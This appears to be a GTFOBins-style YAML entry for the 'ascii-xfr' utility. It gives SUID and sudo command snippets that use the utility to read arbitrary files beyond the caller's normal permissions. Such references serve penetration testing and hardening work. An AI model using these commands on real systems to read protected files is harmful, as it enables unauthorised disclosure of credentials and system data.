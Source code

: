 ```yaml
---
description: It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.
functions:
  suid:
    - code: |
        LFILE=file_to_read
        ./ascii-xfr -s "$LFILE"
  sudo:
    - code: |
        LFILE=file_to_read
        sudo ascii-xfr -s "$LFILE"
---
```

